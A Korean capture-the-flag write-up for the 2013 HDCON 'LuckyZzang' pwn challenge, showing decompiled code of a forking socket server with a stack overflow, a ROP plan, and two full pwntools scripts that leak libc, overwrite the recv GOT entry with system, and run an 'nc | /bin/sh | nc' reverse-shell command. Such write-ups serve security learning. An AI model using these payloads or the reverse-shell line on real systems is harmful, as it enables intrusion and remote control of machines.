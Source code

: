 # [2013_HDCON] \[PWN] LuckyZzang

```
[*] '/root/labs/ctf/2013_hdcon/luckyzzang/ass01'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



### 취약점 - Stack based Overflow

```c
int __cdecl func(int fd)
{
  unsigned int v1; // eax@1
  int v2; // eax@1
  char buf; // [sp+10h] [bp-408h]@1

  v1 = time(0);
  srand(v1);
  puts("Client has connected successfully :)");
  send(fd, "MSG : ", 6u, 0);
  memset(&buf, 0, 0x400u);
  v2 = rand();
  return recv(fd, &buf, v2 % 100 + 1025, 0);
}
```

스택 오버플로우가 발생합니다.



### 시나리오

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v4; // [sp+2Ch] [bp-4h]@4

  sockfd = socket(2, 1, 0);
  if ( sockfd == -1 )
  {
    perror("socket");
    exit(1);
  }
  my_addr.sa_family = 2;
  *(_WORD *)&my_addr.sa_data[0] = htons(0x1E61u);
  *(_DWORD *)&my_addr.sa_data[2] = 0;
  *(_DWORD *)&my_addr.sa_data[6] = 0;
  *(_DWORD *)&my_addr.sa_data[10] = 0;
  v4 = 1;
  setsockopt(sockfd, 1, 2, &v4, 4u);
  if ( bind(sockfd, &my_addr, 0x10u) == -1 )
  {
    perror("bind");
    exit(1);
  }
  if ( listen(sockfd, 100) == -1 )
  {
    perror("listen");
    exit(1);
  }
  puts("Way to go!");
  while ( 1 )
  {
    while ( 1 )
    {
      sin_size = 16;
      client_fd = accept(sockfd, &their_addr, &sin_size);
      if ( client_fd != -1 )
        break;
      perror("accept");
    }
    if ( !fork() )
      break;
    close(client_fd);
    while ( waitpid(-1, 0, 1) > 0 )
      ;
  }
  func(client_fd);
  return close(client_fd);
}
```

소켓을 생성한 후 fork를 통해 자식 프로세스를 통해 소켓 통신을 진행합니다. 부모 프로세스는 죽지 않고 계속 살아있기 때문에 통신을 수차례하더라도 프로세스의  got 값은 그대로입니다. got를 한 번 leak 이 주소의 offset을 계속 사용할 수 있습니다.

또, 사용자와 통신하는 fd값은 4입니다.

(원래는 2개의 함수 주소를 leak 하여 libc database를 통해 libc 버전을 특정지어야 하지만 편의상 로컬 libc를 사용하였습니다.)

1. recv 함수를 통해  puts 주소를 leak한다.
2. offset을 계산하여 system 함수의 주소를 구한다.
3. data 영역에 명령어를 적어놓는다.
4. system 함수를 호출하고 data 영역을 인자로 넣어준다.
5. 한번의 system 함수 호출을 통해 shell을 획득하기 위해 'nc {ip} 8080 } | /bin/sh | nc {ip} 8081'을 명령어로 넣는다
6. 8080, 8081 포트를 리스닝한다.
7. 8080 포트엔 shell 명령어를 넣으면 되고, 8081 포트에선 실행 결과가 나타나게 된다.



```python
from pwn import *
import time


ret = 0x80484bb
popret = 0x80484dc
pop2ret = 0x80486a2
pop4ret = 0x80489cc
pop3ret = 0x804878d
recv_plt = 0x080485F0
recv_got = 0x0804A040
send_plt = 0x08048610
puts_plt = 0x08048550
puts_got = 0x0804A018
data = 0x0804A08C
func = 0x080486F3
system = 0xf7e4bda0

payload ="a"*(0x408+4)
payload+=p32(send_plt)	# leak puts
payload+=p32(pop4ret)
payload+=p32(4)
payload+=p32(puts_got)
payload+=p32(4)
payload+=p32(0)

e = ELF('/lib/i386-linux-gnu/libc.so.6')
puts_ = e.symbols['puts']
system_ = e.symbols['system']

s = connect("stealthee.kr", 7777)

print s.recv()
s.send(payload)
puts = u32(s.recv()[:4])
libcbase = puts - puts_
system = libcbase + system_
log.info("libcbase : " + hex(libcbase))
log.info("system : " + hex(system))
s.interactive()
```

leak



```python
from pwn import *
import time

ret = 0x80484bb
popret = 0x80484dc
pop2ret = 0x80486a2
pop4ret = 0x80489cc
pop3ret = 0x804878d
recv_plt = 0x080485F0
recv_got = 0x0804A040
send_plt = 0x08048610
puts_plt = 0x08048550
puts_got = 0x0804A018
data = 0x0804A08C
func = 0x080486F3
system = 0xf7e4bda0

cmd = "nc {ip} 8080 | /bin/sh | nc {ip} 8081\x00"
payload ="a"*(0x408+4)
payload+=p32(recv_plt)  # write cmd in .data
payload+=p32(pop4ret)
payload+=p32(4)
payload+=p32(data)
payload+=p32(len(cmd))
payload+=p32(0)
payload+=p32(recv_plt)  # overwrite recv_got with system
payload+=p32(pop4ret)   
payload+=p32(4)
payload+=p32(recv_got)
payload+=p32(4)
payload+=p32(0)
payload+=p32(recv_plt)  # system call
payload+=p32(0)
payload+=p32(data)

s = connect("stealthee.kr", 7777)
print s.recv()
s.send(payload)
time.sleep(0.5)
s.send(cmd)
time.sleep(0.5)
s.send(p32(system))
s.interactive()
```

exploit